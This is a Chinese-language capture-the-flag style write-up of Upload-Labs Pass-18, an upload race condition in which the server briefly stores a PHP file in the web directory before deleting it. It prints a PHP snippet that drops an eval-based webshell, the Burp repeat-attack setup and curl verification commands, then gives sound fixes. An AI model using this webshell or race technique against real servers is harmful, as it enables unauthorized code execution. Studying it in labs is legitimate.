



Upload-Labs Pass-18：利用条件竞争保留临时 PHP 文件
Pass-18 虽然只允许最终保留 jpg、png、gif，但服务端先把文件移动到最终上传目录，随后才检查扩展名并删除非法文件。上传与删除之间存在一个短暂的时间窗口；并发访问此时已经落盘的 PHP 文件，就能让其中的代码先于 unlink() 执行。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | 本地 Upload-Labs |
| 关卡 | Pass-18 |
| 目标地址 | http://127.0.0.1:8081/Pass-18/index.php |
| 漏洞类型 | 文件上传与删除之间的条件竞争 |
| 上传文件名 | 2.php |
| 竞争访问地址 | http://127.0.0.1:8081/upload/2.php |
| 生成结果 | http://127.0.0.1:8081/upload/xiao.php |
| 运行环境 | Apache 2.4.68、PHP、Linux/WSL |
127.0.0.1 的授权靶场。验证时只执行固定 echo 语句，不执行系统命令。二、页面现象
Pass-18 的任务是上传 WebShell，但直接上传 2.php 后会收到“只允许上传 jpg、png、gif 类型文件”的提示。

三、漏洞根因
本关的核心逻辑可以简化为：
$ext_arr = array('jpg', 'png', 'gif');
$file_name = $_FILES['upload_file']['name'];
$upload_file = UPLOAD_PATH . '/' . $file_name;
if (move_uploaded_file($temp_file, $upload_file)) {
if (in_array($file_ext, $ext_arr)) {
rename($upload_file, $img_path);
} else {
unlink($upload_file);
}
}执行顺序决定了这里存在竞态窗口：
| 顺序 | 服务端动作 | 文件状态 |
|---|---|---|
| 1 | move_uploaded_file() 写入 upload/2.php | 已存在且可访问 |
| 2 | 检查扩展名 | php 不在白名单 |
| 3 | unlink() 删除文件 | 恢复为不存在 |
安全边界的问题不只是“扩展名检查在服务端”，而是危险文件先被放到了 Web 可访问目录。检查与删除不能撤销第 2 步窗口内已经发生的 PHP 执行。
四、Burp 中的竞争请求
从浏览器提交一次非法文件，将请求发送到 Burp 的 Attack。把 multipart 文件名改为 2.php，并在文件内容中放入一个先建立 xiao.php 的 PHP 探针。本次请求体为：
<?php
fputs(fopen('xiao.php','w'), '<?php eval($_REQUEST[1]);?>');
?>
2.php，Attack 中未配置载荷位置并选择“无限重复”。重点不是枚举用户名或密码，而是保持同一个上传请求高频发送。Burp Attack 的配置如下：
- 请求目标：
http://127.0.0.1:8081。 - 请求路径：
/Pass-18/index.php。 - multipart 文件名：
2.php。 - 请求体：写入
xiao.php的 PHP 代码。 - 载荷配置：选择“无限重复”，启动攻击。
攻击运行后，在另一个标签页或客户端持续访问：
http://127.0.0.1:8081/upload/2.php只要某次访问命中了“已经移动、尚未删除”的时间窗口，2.php 就会被 PHP 解析并执行，随后在上传目录中创建 xiao.php。竞争没有命中时，访问会显示 404 Not Found。

2.php 已被删除；竞态访问需要持续重复。五、验证 xiao.php
生成后先检查 HTTP 状态：
curl.exe -sS -I http://127.0.0.1:8081/upload/xiao.php实测返回：
HTTP/1.1 200 OK
Server: Apache/2.4.68 (Debian)
Content-Type: text/html; charset=UTF-8文件确实位于靶场的 upload 目录，大小为 27 字节。然后用固定字符串验证 PHP 执行，不调用系统命令：
curl.exe -sS -X POST \
--data-urlencode "1=echo 'PASS18_EXISTING_OK';" \
http://127.0.0.1:8081/upload/xiao.php响应为：
PASS18_EXISTING_OKupload/xiao.php 已由条件竞争窗口中的 2.php 生成，HTTP 访问返回 200，PHP 代码执行并输出了固定标记。六、为什么单纯并发不是充分条件
条件竞争依赖服务端在短时间内完成“写入”和“删除”，两个动作之间没有原子性。提高请求频率只能提高命中概率，不能保证一次成功，因此需要同时满足：
- 上传请求足够频繁，使非法文件不断重新出现。
- 访问请求足够频繁，及时命中文件存在的时间窗口。
- 访问请求在文件仍可被 PHP 解析时到达，而不是仅仅看到静态文件。
- 目标目录允许脚本执行，且写入位置与访问路径一致。
这类漏洞的根因不是“黑名单漏掉了某个后缀”，而是检查和清理之间缺少原子操作。即使扩展名检查逻辑本身没有遗漏，只要危险文件曾短暂可执行，仍然可能失败。
七、修复建议
- 先把上传内容写入 Web 根目录之外的临时目录，完成类型、扩展名和内容校验后再安全移动。
- 由服务端生成随机文件名和安全扩展名，不直接使用客户端文件名。
- 上传目录关闭 PHP、CGI 等脚本执行权限，并限制目录访问方式。
- 对文件移动、校验和发布使用原子操作，避免用户请求访问到中间状态。
- 启用白名单、真实文件类型检测和图片重编码，并将权限限制在最小范围。
八、复盘
Pass-18 的核心是时间差：服务端先把 2.php 移动到可访问目录，再进行扩展名检查并删除。Burp Attack 的“无限重复”负责持续制造临时文件，另一个并发请求负责在删除前访问它。命中后，2.php 执行并生成 xiao.php，从而证明上传成功与安全校验之间不能存在可被利用的可见状态。